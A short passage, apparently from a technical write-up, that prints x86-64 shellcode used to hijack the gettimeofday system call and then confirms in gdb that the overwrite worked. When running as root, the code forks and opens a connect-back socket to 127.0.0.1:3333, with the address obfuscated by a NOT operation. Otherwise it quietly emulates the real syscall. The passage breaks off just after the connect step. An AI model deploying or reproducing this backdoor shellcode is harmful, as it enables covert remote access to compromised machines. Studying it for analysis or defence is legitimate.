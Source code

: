 The original:
~~~nasm
nop
push rbx
xor rax,rax
mov al, 0x66
syscall #check uid
xor rbx,rbx
cmp rbx,rax
jne emulate #If not root, only emulate.

xor rax,rax
mov al,0x39
syscall #fork
xor rbx,rbx
cmp rax,rbx
je connectback

emulate:
pop rbx
xor rax,rax
mov al,0x60
syscall
retq

connectback:
xor rdx,rdx
pushq 0x1
pop rsi
pushq 0x2
pop rdi
pushq 0x29
pop rax 
syscall #socket

xchg rdi,rax
push rax
mov rcx, 0xfeffff80faf2fffd #NOT'ed 127.0.0.1:3333
not rcx
push rcx
mov rsi,rsp
pushq 0x10
pop rdx
pushq 0x2a
pop rax
syscall #connect

xor rbx,rbx
cmp rax,rbx
~~~
So just checking the first 40 instructions between gdb and the original shellcode we can conclude to have successfully overwritten gettimeofday.
